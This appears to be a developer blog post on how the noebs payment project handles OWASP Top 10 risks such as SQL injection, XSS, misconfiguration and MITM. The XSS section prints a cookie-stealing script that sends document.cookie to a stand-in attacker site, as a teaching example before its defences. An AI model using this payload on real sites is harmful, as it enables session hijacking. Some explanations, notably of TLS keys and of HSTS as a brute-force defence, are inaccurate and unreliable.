 +++
date = 2019-08-23
linktitle = "How are we tackling OWASP 10 at noebs"
excerpt = "The Open Web Application Security Project, or OWASP, is an international non-profit organization dedicated to web application security. One of OWASP’s best-known project is the OWASP Top 10."

tags =  [
	"noebs",
	 "electronic-payment",
	 "owasp",
	 "security"
]
url = "/owasp"
+++

**OWASP** The Open Web Application Security Project is an international non-profit organization dedicated to web application security. They're best know by OWASP Top 10, a curated list of top 10 most critical security risks. This post will highlight some of the practices we are following at Solus while building our systems.

# SQL injection
This is one of the very common and the first item in OWASP Top 10. In it's simplest form, it is about sending a sql code through e.g., HTML Form input field. For this to work, the server must be *enabling* executing such an action. Let's take this simple example (using Python):

```python
form = request.form()
username = form["username"]   # there's an form field called username
sql.exec(username)    # This is a _sql injection_
```
It is almost always bad to execute raw sql queries. In fact, unless you DB is read-only, there's no need at ALL to allow raw sql queries execution.

The solution is: Don't allow raw sql execution.

# Broken Authentication
This can be broken into two categories:
- you're either building an insecure authentication system that exposes your users' data,
- or, your login system allows repeated logins attempts (brute-forcing)

We are using the industry standard practice here. We are using JWT for most of our authorization, while _planning_ to use session cookies for browser based ones. There are huge debates about JWT and session cookies, but it is all boils down to your whole system design. Sometimes, JWT fits to the whole system (if your target clients are Android/iOS), and sometimes session cookies are great, esp if you target clients are browser based.


For this, we have two solutions:
- We are using HSTS (HTTP Strict Transport Security).

> HSTS causes compliant browsers to strictly enforce web security practices. Specifically, it automatically turns all HTTP links into HTTPS links within an application, and it upgrades all SSL errors from warnings or bypassable errors into non-bypassable errors.

# XSS (Cross-site scription)
An attacker can send a malicious JS code (in the client code). It can be as bad as copying the user's cookies and gain control access to their session.

Suppose that you have an HTML form that allows your users to write some notes about their transactions, here is a sample code:
```html
<form>
<input type="text">
<label>Type your note here</label>
</form>
```
The user's form will be submitted __and__ rendered in a new page! Now this is very dangerous and it what leads to XSS security breaches. Let's see this in action. The next HTML page which will render the form result is like this:
```html
<!-- skipping through HTML head -->
<div>
<!-- form results go here -->
</div>

```
We expect our users to input stuff like time, text data BUT NOT JS CODE! What happens, if the users submitted `<script>alert("You have been spawned!")</script>`. This will launch a JS code from suspecious user's input. Now, this code can be even worse and accesses the user's cookies.

## How the attacker can log your cookies
It is quite simply actually. You can access your website cookie by accessing the cookie property of document class:
- use your browser inspector and go to console
- print document.cookie
and now you can access your cookies!

Now if the attacker wants to get that cookie, they will need to send it somewhere (most likey to a server/website they own)

- the attacker submits an unsafe js code that redirects the users to a new website (where they will log the cookie)
- now, the attacker does have access to your session and can do whatever they want while they are there (they can see your payment card info for instance, they can even submit a transaction assuming that your PIN is 0000 or your birthday)
The JS code to get your cookie is just this:
`
<script>
document.location="http://mybadwebsite.com/?cookie_handler=" + document.cookie
</script>
`
__This can be even smarter by redirecting the user back to their original website!__

And now, when the user submits that un-sanitized inputs, it will:
- redirect them to a new website `http://mybadwebsite.com`
- it submits their cookie `document.cookie` to that website!

Here are a few steps you can follow to be safe against these types of attacks:
- Sanitize your users' inputs! In GO `template/html` library (the templating engine in GO, much like jinja2), it by default scapes HTML and JS tags
- If your website is something is form-like, there are a few things you can adopt:
	- let your users use markdown (it is safer)
	- you can specify some HTML elements as safe (e.g., <p>, <a>), and escape the rest. In this case, you will allow your users to have rich text experience

## The solution to all of the above issues is very simple: USE A FRAMEWORK!

The solution to all of the above issues is very simple, use a web framework! All of the modern web frameworks solves these rather naive secruity issues! I have worked with Python (Django and Flask and Starlette) and I've also worked with GO, all of them have built-in support for these common security issues! So, in practice, adapting *any* of modern web framework will save you from all of these issues, for free!

## Security Misconfigurations

I have seen this in the wild very recently in a payment system. We as developers love to have excessive stack trace and error reports while developing our services. Because there are so many errors we ought to face, it is very important that we get the whole stack trace so we get more insights into our error and fix it. However, that must stay in the development face ONLY! These stack traces (and perhaps other info) are very useful for attackers to gain access to your server.

Many of web frameworks (Django for instance) have DEBUG mode where instead of returing 500 INTERNAL SERVER ERROR, they also include the stack trace (when DEBUG=True) in Django `settings.py`. While this is very important while developing, it is very catastrophic in real life!

# Sensitive data exposure and MITM
We work in payment systems and it is very important to secure our user's data (their payment card info). These systems must adhere to even strictier rules than what OWASP offers as they have VERY sensitive data. PCI-DSS compliancy should be a #1 target for such systems and they shoud monitor and audit their systems and upgrade them regularly. _Security should be a profound part of their system design!_

> While getting EBS certificate is quite enough to have a secure system, we know that vendors often tend to modify their EBS-certified systems. This is a huge issue and it renders the whole EBS certification part useless.

## What we do in noebs to secure your data
- KISS (keeping it simple, stupid!). We are keeping it simple: we are only storing your PAN and expiration date, we don't store anything else!
- We had long discussions about storing PAN and expiration date, but we plan to change the way we store them VERY SOON!
- We have a Zero-log policy, so even if an attacker has breached our system, they will find no useful data!

## MITM Attacks
Man in the middle attacks are a very special and interesting class of attacks.
- You are using https for securing your system
- You have successfully solved CSRF, XSS and SQL Injections (hooray!)
- and now everything is fine, right?

As we know, TLS certificates are used to encrypt our request and make it secure. They are to be unbroken since the protocol is a public-private key exchange to decypher the http request. Meaning that, there's only one private key (in the server), and each client has their unique public key. So what could possibly go wrong?
Telecos (or MITM attackers) inject a tampered root CA in the host machine and replace their original one. When you send your "secure" request, it is being encrypted using the new root CA and sent to the server.
The attacker, having acquired your root CA, can then decypher your network traffic and have access to all of it.
